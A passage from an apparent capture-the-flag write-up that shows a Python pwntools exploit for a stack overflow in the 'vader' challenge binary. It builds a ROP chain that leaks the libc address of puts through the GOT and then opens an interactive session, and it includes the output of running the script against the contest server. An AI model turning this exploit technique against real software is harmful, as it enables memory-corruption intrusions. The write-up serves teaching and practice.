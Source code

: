 ```
pop_rcx_rdx = 0x00000000004011cd
pop_r8 = 0x00000000004011d9
pop_rdx = 0x00000000004011ce


print(target.recvuntil(b'Now I am the master >>>'))
payload = cyclic(200)
padding = b'a' * 40
payload = padding
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.symbols['puts'])
payload += p64(elf.symbols['main'])

target.sendline(payload)

leak = target.recvuntil(b'MMMMMMMMMMMMMMM').strip(b'\nMMMMMMMMMMMMMMM')[1:]
print(leak)
puts_libc = u64(leak+ b'\x00' * 2)


print(target.recvuntil(b'Now I am the master >>>'))
print(hex(puts_libc))

target.interactive()
```
And here is what that looks like when run:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes$ python3 rule_of_two_exploit.py
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/space_heroes/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```